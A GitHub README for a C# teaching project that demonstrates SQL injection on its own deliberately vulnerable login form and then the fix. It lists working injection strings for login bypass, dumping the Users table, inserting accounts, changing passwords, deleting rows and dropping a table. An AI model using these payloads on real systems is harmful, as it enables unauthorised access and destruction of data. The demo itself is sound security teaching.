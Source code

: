 #  This is Demo for SQL Injection Attack <br>

__Usebackup file `DemoSQLi.bak` to set up Database__ <br>
__Run file `SQLi.sln` to open project__ <br>
__Change DataSource in file `MyDB.cs` to Connect to database__ <br>
![image](https://github.com/user-attachments/assets/d3388462-80da-4909-8411-71a04ba8e00f) <br> <br>

__To Login input username and password following this table__ <br>
![image](https://github.com/user-attachments/assets/903733c5-5dfa-478a-92fc-c926a99f126a) <br>

__Run Program and login normally__ <br>
![image](https://github.com/user-attachments/assets/be7584b8-dfc0-4e15-a98b-a84f8798982c) <br>

__Exit and try to perform SQL injection attack__ <br>
![image](https://github.com/user-attachments/assets/9d816923-2e97-4954-a480-6f3a29591305) <br>

Enter something in `username` TextBox <br>
Enter these following strings one by one into the `password` TextBox:
```
' or 1=1 -- Login
' or 1=1 UNION SELECT * FROM Users -- Stealing
' or 1=1; INSERT INTO Login(username, password) VALUES ('inject1', '12345')  -- Insert 
' or 1=1; UPDATE Login SET password = 'ThisIsInjectedPassWord' -- Change Password
' or 1=1; DELETE FROM users1 -- Delete  
' or 1=1; DROP TABLE USERS1 -- DROP TABLE
```
<br>
And Observe database changes <br>


# To Prevent SQL Injection Attack <br>
Open file `LoginForm.cs` <br> 
__Comment line 30, 31 and uncomment line 33 to 38__ <br>
![image](https://github.com/user-attachments/assets/4fb4d29b-31e6-439e-bce0-3b0122a1d5ea) <br>

__Try to login by SQL injection. The result is `Invalid Login`__


